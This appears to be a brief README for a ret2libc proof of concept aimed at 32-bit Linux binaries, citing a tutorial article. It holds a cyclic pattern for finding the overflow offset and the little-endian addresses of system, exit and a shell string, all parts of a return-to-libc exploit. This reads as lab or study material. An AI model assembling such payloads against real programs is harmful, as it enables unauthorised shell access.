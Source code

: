 This POC is based of this website: https://infosecwriteups.com/ret2libc-attack-in-lin-3dfc827c90c3
It is aimed at 32 bits binaries


AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAA

system: 0xf7c4c7b0 -> "\xb0\xc7\xc4\xf7"
exit: 0xf7c3bc40 -> "\x40\xbc\xc3\xf7"
Shell: 0xf7db5faa -> "\xaa\x5f\xdb\xf7"
